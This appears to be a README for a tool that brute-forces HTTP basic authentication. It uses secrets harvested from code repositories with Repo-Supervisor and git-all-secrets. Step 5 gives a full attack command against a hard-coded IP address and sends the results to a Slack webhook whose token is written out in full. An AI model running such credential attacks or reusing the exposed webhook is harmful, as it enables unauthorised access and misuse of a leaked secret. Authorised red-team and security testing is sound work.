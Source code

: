 # Basic Authentication Bruteforcing of WFUZZ endpoints with secrets obtained from Repo-Supervisor

1. `cd` into the `wfuzz-basicauth-bruteforcer` directory.

2. Complete the `.env.sample` file in the `wfuzz-basicauth-bruteforcer` directory with the appropriate values and copy it to `.env`.

3. For MacOS, activate the virtual environment and install `pycurl`:
    * `virtualenv env`
    * `. env/bin/activate`
    * `pip install pycurl`

4. For Linux, activate the virtual environment and install `pycurl`:
    * `virtualenv env`
    * `. env/bin/activate`
    * `sudo apt-get install -y build-essential libssl-dev libffi-dev python-dev libcurl4-openssl-dev`
    * `pip install pycurl`

5. Now, in order to bruteforce the basic authentication mechanism with the data retrieved from `wfuzz` and `git-all-secrets`, type `go run bruteforce.go -target 104.198.4.57 -slackHook https://hooks.slack.com/services/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`.

6. Come out of the virtual environment by typing `deactivate`.

7. We should get back some results in Slack.
